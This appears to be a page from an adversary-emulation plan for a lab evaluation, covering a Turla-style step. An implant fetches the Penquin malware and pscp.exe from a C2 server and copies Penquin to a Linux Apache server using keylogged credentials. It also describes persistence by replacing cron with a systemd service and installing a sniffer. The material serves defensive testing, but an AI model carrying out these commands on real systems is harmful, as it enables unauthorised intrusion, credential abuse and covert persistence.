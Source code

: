 ## Step 9 - Lateral Movement to Linux Server

:microphone: `Voice Track:`

Step 9 emulates Turla laterally moving to the Linux Apache server and
installing Penquin.

First, the third CARBON-DLL implant downloads Penquin and `pscp.exe` to
Adalwolfa's workstation, where `pscp.exe` is used with the credentials keylogged
in the previous step to copy Penquin over to the Apache server. Next,
CARBON-DLL downloads changes to the cron service to Adalwolfa's workstation and uses
pscp.exe to also copy the changes to the Apache server.

Lastly, CARBON-DLL downloads `plink.exe` and, using the credentials keylogged in
the previous step, executes Penquin on the Apache server.

Penquin performs the following actions:
* Unpacking a binary (the compiled sniffer) named `cron` and adding executable permissions
* Copying `cron` into `/usr/bin/` as `cron`
* Stopping the cron service
* Creating a cron service file in the `/etc/systemd/system/` folder for `systemd` to execute our cron. Note: The system executes our fake cron before the systems real cron because files located in `/etc/systemd/system/` are executed before files in the `/usr/sbin/cron` 
* Reloading and starting the cron service
* Our cron service installs the sniffer and executes real cron as a child process

In summary, Penquin installs a BPF filter and listens on the Apache server's network interface for a specific activation packet.

---

### :biohazard: Procedures

* From your Kali C2 server terminal, task the CARBON-DLL implant on Adawolfa's workstation
to download Penquin (named `tmp504e.tmp`).

```bash
./evalsC2client.py --set-task c6f2aa03 '{"id": 4, "payload": "hsperfdata.zip", "payload_dest": "C:\\Windows\\Temp\\tmp504e.tmp", "cmd": "dir C:\\Windows\\Temp\\tmp504e.tmp"}'
```

* Wait 1 minute and then task the implant to download `pscp.exe`

```bash
./evalsC2client.py --set-task c6f2aa03 '{"id": 5, "payload": "pscp.exe", "payload_dest": "C:\\Windows\\Temp\\pscp.exe", "cmd": "move C:\\Windows\\Temp\\pscp.exe C:\\Windows\\System32\\pscp.exe && dir C:\\Windows\\System32\\pscp.exe"}'
```

* Wait 1 minute and then task the implant to copy Penquin to the Apache web server using Adalwolfa's credentials.

```bash
./evalsC2client.py --set-task c6f2aa03 '{"id": 6, "cmd": "echo y | C:\\Windows\\System32\\pscp.exe -pw Password2! C:\\Windows\\Temp\\tmp504e.tmp adalwolfa@10.20.10.23:/tmp/tmp514f524f"}'
```

